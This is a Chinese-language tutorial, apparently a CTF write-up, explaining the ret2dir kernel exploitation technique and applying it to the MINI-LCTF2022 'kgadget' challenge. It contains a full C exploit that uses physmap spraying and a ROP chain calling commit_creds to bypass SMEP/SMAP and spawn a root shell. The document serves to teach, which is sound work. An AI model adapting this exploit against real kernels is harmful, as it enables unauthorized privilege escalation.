

# ret2dir

ret2dir 是哥伦比亚大学网络安全实验室在 2014 年提出的一种辅助攻击手法，主要用来**绕过 smep、smap、pxn 等用户空间与内核空间隔离的防护手段**，原论文见[此处](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)。

我们首先来思考一下 [x86 下的 Linux kernel 的内存布局](https://elixir.bootlin.com/linux/latest/source/Documentation/x86/x86_64/mm.rst)，存在着这样的一块区域叫做 `direct mapping area`，**线性地直接映射了整个物理内存空间**：

```rst
ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
```

这块区域的存在意味着：对于一个被用户进程使用的物理页框，**同时存在着一个用户空间地址与内核空间地址到该物理页框的映射**，即我们利用这两个地址进行内存访问时访问的是同一个物理页框。

当开启了 SMEP、SMAP、PXN 等防护时，内核空间到用户空间的直接访问被禁止，**我们无法直接使用类似 ret2usr 这样的攻击方式**，但利用内核线性映射区对整个物理地址空间的映射，**我们可以利用一个内核空间上的地址访问到用户空间的数据，从而绕过 SMEP、SMAP、PXN 等传统的隔绝用户空间与内核空间的防护手段**。

下图便是原论文中对 ret2dir 这种攻击的示例，我们在用户空间中布置的 gadget 可以通过 direct mapping area 上的地址**在内核空间中访问到**：



但需要注意的是**在新版的内核当中 direct mapping area 已经不再具有可执行权限**，因此我们很难再在用户空间直接布置 shellcode 进行利用，**但我们仍能通过在用户空间布置 ROP 链的方式完成利用**：


比较朴素的一种使用 ret2dir 进行攻击的手法便是：

- 利用 mmap 在用户空间大量喷射内存。

- 利用漏洞泄露出内核的“堆”上地址（通过 kmalloc 获取到的地址），**这个地址直接来自于线性映射区**。

- 利用泄露出的内核线性映射区的地址**进行内存搜索**，从而找到我们在用户空间喷射的内存。

**此时我们就获得了一个映射到用户空间的内核空间地址，我们通过这个内核空间地址便能直接访问到用户空间的数据，从而避开了传统的隔绝用户空间与内核空间的防护手段**。

需要注意的是我们往往没有内存搜索的机会，因此需要**使用 mmap 喷射大量的物理内存写入同样的 payload**，之后再随机挑选一个线性映射区上的地址进行利用，这样我们就**有很大的概率命中到我们布置的 payload 上**，这种攻击手法也称为 `physmap spray`。

## 例题：MINI-LCTF2022 - kgadget

### 分析

还是惯例的给了个有漏洞的驱动，逆起来其实并不难，唯一有用的就是 ioctl，若 ioctl 的第二个参数为 114514 则会将第三个参数作为指针进行解引用，取其所指地址上值作为函数指针进行执行（这里编译器将其优化为 `__x86_indirect_thunk_rbx()` ，其实本质上就是 `call rbx` ）。

```c
__int64 __fastcall kgadget_ioctl(file *__file, unsigned int cmd, unsigned __int64 param)
{
  __int64 *v3; // rdx
  __int64 v4; // rsi
  __int64 result; // rax

  _fentry__(__file, cmd, param);
  if ( cmd == 114514 )
  {
    v4 = *v3;
    printk(&unk_370);
    printk(&unk_3A0);
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
    printk(&unk_3F8);
    _x86_indirect_thunk_rbx(&unk_3F8, v4);
    result = 0LL;
  }
  else
  {
    printk(&unk_420);
    result = -1LL;
  }
  return result;
}
```

在启动脚本中开启了 smep 与 smap 保护，所以我们不能够直接在用户空间构造 rop 然后 ret2usr，但是由于没有开启 kaslr，所以我们也不需要泄露内核基址：

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -smp cores=2,threads=2 \
    -kernel bzImage \
    -initrd ./rootfs.cpio \
    -nographic \
    -monitor /dev/null \
    -snapshot \
    -append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \
    -no-reboot
```

### 漏洞利用

因为我们没法直接在内核空间直接找到一个这样的目标（内核空间中虽然存在能够这样进行调用的函数指针，例如 tty 设备默认的函数表`ptm_unix98_ops` 一类的，但是这些函数表对应的函数指针对我们来说没有用），所以我们需要手动去**在内核空间布置我们的函数指针与 rop chain**，之后我们传入我们布置的 gadget 的地址就能进行利用了。

那么我们如何在内核空间布置我们的恶意数据呢？可能有的人就会想到 `msg_msg` 、`sk_buff` 等一系列常用来进行堆喷的结构体，**但其实我们并不需要显式地在内核空间布置数据，而是可以通过一个位于内核空间中的地址直接访问到用户空间中的数据**——那就是映射了整个物理内存的 `direct mapping area`。

我们不难想到的是，**我们为用户空间所分配的每一张内存页，在内核空间中都能通过这块内存区域访问到**，因此我们只需要在用户空间布置恶意数据，之后再在内核空间的这块区域中找到我们的用户空间数据对应的内核空间地址即可，这便是 `ret2dir` ——**通过内核空间地址访问到用户空间数据**。

那么现在又出现一个新的问题，**我们如何得知我们布置的恶意数据在内核空间中的对应地址呢？**我们无法进行内核空间中的内存搜索，因此也就无法直接得知我们布置的恶意数据在内核空间中的地址。

**答案是不需要搜索**，这里我们使用[原论文](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)中的一种名为 `physmap spray` 的攻击手法——**使用 mmap 喷射大量的物理内存写入同样的 payload**，之后再随机挑选一个相对靠近高地址的 direct mapping area 上的地址进行利用，这样我们就**有很大的概率命中到我们布置的 payload 上**。

经笔者实测当我们喷射的内存页数量达到一定数量级时**我们总能准确地在 direct mapping area 靠中后部的区域命中我们的恶意数据**。

最后就是 gadget 的挑选与 rop chain 的构造了，我们不难想到的是可以通过形如 `add rsp, val ; ret` 的 gadget 跳转到内核栈上的 `pt_regs` 上，在上面布置提权的 rop chain，但在本题当中 `pt_regs` 只有 r9 与 r8 两个寄存器可用，因为 `pt_regs` 被出题人提前进行了清理：

```c
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
```

但其实仅有两个寄存器也够用了，我们可以利用 `pop_rsp ; ret` 的 gadget 进行栈迁移，**将栈迁移到我们在用户空间所布置的恶意数据上**，随后我们直接在恶意数据靠后的位置布置提权降落回用户态的 rop chain 即可。

由于 buddy system 以页为单位进行内存分配，所以笔者也以页为单位进行 physmap spray，以求能消耗更多的物理内存，提高命中率，这里笔者懒得去计算偏移了，所以在每张内存页上布置的都是“三段式”的 rop chain，将我们跳转到 `pt_regs` 的 gadget 同时用作 slide code——

```
------------------------
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret
...
add rsp, val ; ret # 该gadget必定会命中下一个区域中的一条ret，之后便能平缓地“滑”到常规的提权 rop 上
------------------------
ret
ret
...
ret
------------------------
common root ROP chain
------------------------
```

### final exploit

最后的 exp 如下：

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

size_t  prepare_kernel_cred = 0xffffffff810c9540;
size_t  commit_creds = 0xffffffff810c92e0;
size_t  init_cred = 0xffffffff82a6b700;
size_t  pop_rdi_ret = 0xffffffff8108c6f0;
size_t  pop_rax_ret = 0xffffffff810115d4;
size_t  pop_rsp_ret = 0xffffffff811483d0;
size_t  swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00fb0 + 27;
size_t  add_rsp_0xe8_pop_rbx_pop_rbp_ret = 0xffffffff812bd353;
size_t  add_rsp_0xd8_pop_rbx_pop_rbp_ret = 0xffffffff810e7a54;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t  ret = 0xffffffff8108c6f1;

void    (*kgadget_ptr)(void);
size_t  *physmap_spray_arr[16000];
size_t  page_size;
size_t     try_hit;
int     dev_fd;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(void)
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error : \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void getRootShell(void)
{   
    puts("\033[32m\033[1m[+] Backing from the kernelspace.\033[0m");

    if(getuid())
    {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(-1);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m");
    system("/bin/sh");
    exit(0);// to exit the process normally instead of segmentation fault
}

void constructROPChain(size_t *rop)
{
    int idx = 0;

    // gadget to trigger pt_regs and for slide
    for (; idx < (page_size / 8 - 0x30); idx++)
        rop[idx] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;

    // more normal slide code
    for (; idx < (page_size / 8 - 0x10); idx++)
        rop[idx] = ret;

    // rop chain
    rop[idx++] = pop_rdi_ret;
    rop[idx++] = init_cred;
    rop[idx++] = commit_creds;
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) getRootShell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
}

int main(int argc, char **argv, char **envp)
{
    saveStatus();

    dev_fd = open("/dev/kgadget", O_RDWR);
    if (dev_fd < 0)
        errExit("dev fd!");

    page_size = sysconf(_SC_PAGESIZE);

    // construct per-page rop chain
    physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    constructROPChain(physmap_spray_arr[0]);

    // spray physmap, so that we can easily hit one of them
    puts("[*] Spraying physmap...");
    for (int i = 1; i < 15000; i++)
    {
        physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (!physmap_spray_arr[i])
            errExit("oom for physmap spray!");
        memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
    }

    puts("[*] trigger physmap one_gadget...");
    //sleep(5);

    try_hit = 0xffff888000000000 + 0x7000000;
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   0x22222222;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0x77777777;"
        "mov r9,    pop_rsp_ret;"   // stack migration again
        "mov r8,    try_hit;"
        "mov rax,   0x10;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   try_hit;"
        "mov rsi,   0x1bf52;"
        "mov rdi,   dev_fd;"
        "syscall"
    );
}
```

## REFERENCE

[http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir)